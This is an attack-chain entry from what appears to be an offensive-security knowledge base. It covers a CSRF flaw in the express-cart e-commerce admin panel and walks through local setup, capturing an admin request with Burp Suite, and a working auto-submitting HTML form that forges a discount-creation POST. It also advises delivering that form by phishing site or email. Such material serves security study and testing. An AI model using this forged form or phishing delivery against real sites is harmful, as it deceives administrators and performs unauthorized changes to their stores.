

---
tags:
  - csrf
  - web-vulnerability
  - express-cart
  - node.js
  - e-commerce
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
  - '[[tools/git]]'
  - '[[tools/npm]]'
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
  - Node.js
submitted: true
complexity: medium
created_at: '2024-01-01T00:00:00Z'
procedures:
  - '[[procedures/Local-Setup-of-Express-Cart-Application]]'
  - '[[procedures/Admin-Account-Configuration-in-Express-Cart]]'
  - '[[procedures/PoC-Generation-for-CSRF-using-Burp-Suite]]'
  - '[[procedures/Admin-Deception-via-Malicious-CSRF-PoC]]'
  - '[[procedures/Verification-of-CSRF-Exploitation]]'
step_count: 5
techniques:
  - '[[Drive-by Compromise]]'
updated_at: '2025-12-14T17:27:23.183Z'
description: >-
  A multi-stage attack chain exploiting the lack of CSRF protection in
  express-cart's admin endpoints, allowing unauthorized execution of admin
  actions via session-based authentication forgery.
skill_level: intermediate
impact_level: high
id: 35a2d0fa-c169-4a01-9e3b-c565d04d4db9
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
---
# Exploiting CSRF in Express-Cart Admin Panel for Unauthorized Admin Actions

Multi-stage attack chain demonstrating a complete CSRF exploitation workflow in the express-cart Node.js e-commerce module, where the absence of CSRF tokens allows attackers to forge admin requests using only session authentication.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/git]]
- [[tools/npm]]
- [[tools/Burp-Suite]]

### Target Environment

- Node.js runtime (v8+ recommended)
- MongoDB service running locally (default port 27017)
- Local network access to port 1111

### Initial Access Requirements

- Administrative access to a development machine
- No prior credentials needed, but authenticated admin session required for exploitation phase
- Internet access for cloning repository

## Detailed Attack Procedures

### Step 1: Local Setup
procedure: [[procedures/Local-Setup-of-Express-Cart-Application]]

**Objective**: Establish a local instance of the vulnerable express-cart application to simulate the target environment.

**Instructions**: Create a directory and clone the repository using [[commands/create-expresscart-directory]]:

```bash
mkdir expressCart
```

Then clone with [[commands/clone-expresscart-repo]]:

```bash
git clone https://github.com/mrvautin/expressCart.git
```

Navigate using [[commands/change-to-expresscart-directory]]:

```bash
cd expressCart
```

Install dependencies with [[commands/npm-install-expresscart]]:

```bash
npm install
```

Start the server using [[commands/npm-start-production-expresscart]]:

```bash
npm start --production
```

Ensure MongoDB is running before starting.

**Expected Output**: Server accessible at http://localhost:1111.

**Success Indicators**:
- Repository cloned successfully
- Dependencies installed without errors
- Server logs show startup on port 1111

### Step 2: Admin Configuration
procedure: [[procedures/Admin-Account-Configuration-in-Express-Cart]]

**Objective**: Create and authenticate an admin session to enable CSRF exploitation.

**Instructions**: Access the admin setup endpoint in a browser.

Navigate to http://localhost:1111/admin/setup and complete the form to register an admin user with username, email, and password.

**Expected Output**: Successful login redirect to admin dashboard.

**Success Indicators**:
- Admin account created
- Session cookie established (visible in browser dev tools)

### Step 3: PoC Generation
procedure: [[procedures/PoC-Generation-for-CSRF-using-Burp-Suite]]

**Objective**: Capture legitimate admin request parameters to craft a malicious auto-submitting form.

**Instructions**: Configure [[tools/Burp-Suite]] as a proxy for your browser traffic. Perform a legitimate admin action, such as creating a discount, and intercept the POST request to /admin/settings/discount/create.

Copy the form data (e.g., code='CSRF-CODE-DEMO', type='percent', value='30', start='21/02/2020 14:32', end='22/02/2020 14:32').

Generate an HTML PoC file with an auto-submitting form targeting the endpoint.

**Expected Output**: Malicious HTML file ready for delivery.

**Success Indicators**:
- Request intercepted and parameters extracted
- PoC HTML validates against the captured request

### Step 4: Admin Deception
procedure: [[procedures/Admin-Deception-via-Malicious-CSRF-PoC]]

**Objective**: Trick the authenticated admin into executing the forged request.

**Instructions**: Host the PoC HTML on a phishing site or send via email. The form should auto-submit when loaded:

```html
<form action="http://localhost:1111/admin/settings/discount/create" method="POST">
    <input type="hidden" name="code" value="CSRF-CODE-DEMO">
    <input type="hidden" name="type" value="percent">
    <input type="hidden" name="value" value="30">
    <input type="hidden" name="start" value="21/02/2020 14:32">
    <input type="hidden" name="end" value="22/02/2020 14:32">
</form>
<script>document.forms[0].submit();</script>
```

Ensure the admin is logged in when interacting.

**Expected Output**: POST request sent from victim's browser.

**Success Indicators**:
- Admin loads the page
- Network tab shows submission to target endpoint

### Step 5: Exploitation Verification
procedure: [[procedures/Verification-of-CSRF-Exploitation]]

**Objective**: Confirm the unauthorized action was performed.

**Instructions**: Log in to the admin panel and check the discounts section for the newly created code 'CSRF-CODE-DEMO'.

Repeat for other actions like product creation to validate broader impact.

**Expected Output**: Unauthorized discount/product appears in admin interface.

**Success Indicators**:
- New admin-created resource visible
- No direct user input required

## Attack Chain Summary

### Key Achievements

1. Local vulnerable environment setup
2. CSRF PoC crafted for admin actions
3. Successful forgery of session-based requests
4. Demonstration of high-impact abuse like data modification

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---

*Last updated: 2024-01-01T00:00:00Z*
